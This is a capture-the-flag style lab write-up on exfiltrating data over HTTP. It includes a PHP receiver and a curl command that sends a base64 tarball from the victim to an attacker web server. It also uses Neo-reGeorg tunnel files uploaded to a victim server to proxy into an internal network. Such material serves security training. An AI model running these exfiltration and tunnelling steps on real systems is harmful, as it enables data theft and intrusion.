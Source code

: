 # Exfiltrate using HTTP(S)

Using the `HTTP/HTTPS` protocol to exfiltrate data from a victim to an attacker's machine requires an attacker 
to have control over a webserver with a server-side programming language installed and enabled. It is challenging 
to detect for the blue team if using the POST HTTP method in the data exfiltration (with the GET request, all 
parameters are registered into the log file).

* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

## HTTP data exfiltration

To exfiltrate data over the HTTP protocol:

* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
* A C2 agent or an attacker sends the data (using the `curl` command).
* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
* The attacker logs into the webserver to have a copy of the received data.

The `contact.php` in `/var/www/html` on `web.thm.com` to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as 
`http.bs64` file name:

```text
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:

    thm@jump-box:~$ ssh thm@victim1.thm.com

Check the data:

    thm@victim1:~$ ls -l

Send POST data via curl:

    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:

    thm@victim1:~$ ssh thm@web.thm.com 
    thm@web:~$ ls -l /tmp/

Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces 
with `+` characters to make it a valid `base64` string:

    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

Restore the data:

    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -

## HTTPS communications

One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server. 
Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.  

## HTTP Tunneling

| ![HTTP tunnel](../../_static/images/http-tunnel.png) |
|:--:|
| With tunneling over the HTTP protocol technique other protocols are encapsulated and <br>data can be sent back and forth via the HTTP protocol. |

Use the [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to create a communication channel to access the 
internal network devices:

```text
root@kali:# cd /opt
root@kali:# ls
firmware-mod-kit  kerbrute   Neo-reGeorg-master.zip  Teeth
impacket          microsoft  nessus                  xplico

root@kali:# unzip Neo-reGeorg-master.zip 
Archive:  Neo-reGeorg-master.zip
a9495cabdd59dc1df645742c99c2c7a02702dbf8
   creating: Neo-reGeorg-master/
  inflating: Neo-reGeorg-master/.gitignore  
  inflating: Neo-reGeorg-master/CHANGELOG-en.md  
  inflating: Neo-reGeorg-master/CHANGELOG.md  
  inflating: Neo-reGeorg-master/LICENSE  
  inflating: Neo-reGeorg-master/README-en.md  
  inflating: Neo-reGeorg-master/README.md  
  inflating: Neo-reGeorg-master/neoreg.py  
   creating: Neo-reGeorg-master/templates/
  inflating: Neo-reGeorg-master/templates/NeoreGeorg.java  
  inflating: Neo-reGeorg-master/templates/tunnel.ashx  
  inflating: Neo-reGeorg-master/templates/tunnel.aspx  
  inflating: Neo-reGeorg-master/templates/tunnel.jsp  
  inflating: Neo-reGeorg-master/templates/tunnel.jspx  
  inflating: Neo-reGeorg-master/templates/tunnel.php  

root@kali:# cd Neo-reGeorg-master 
                                                                                
root@kali:# ls
CHANGELOG-en.md  LICENSE    README-en.md  templates
CHANGELOG.md     neoreg.py  README.md
```

Generate an encrypted client file to upload to the victim web server:

    root@kali:# python3 neoreg.py generate -k thm

          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx

The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many 
extensions, including for PHP, ASPX, JSP, etc. 

To access the uploader machine, visit `https://LAB_WEB_URL.p.thmlabs.com/uploader`:

| ![upload](../../_static/images/upload-exfiltr.png) |
|:--:|
| Upload the `tunnel.php` file via the uploader machine. <br>Use `admin` as the key to allow upload into `uploader.thm.com` |

Use `neoreg.py` to connect to the client, provide the key to decrypt the tunneling client, and the URL to the 
`tunnel.php` just uploaded on the uploader machine.

    root@kali:# python3 neoreg.py -k thm -u http://10.10.177.27/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    +------------------------------------------------------------------------+
      Log Level set to [ERROR]
      Starting SOCKS5 server [127.0.0.1:1080]
      Tunnel at:
        http://10.10.177.27/uploader/files/tunnel.php
    +------------------------------------------------------------------------+

Ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080:
 
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80
    <p><a href="/flag">Get Your Flag!</a></p>
                                                                                
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag

Done.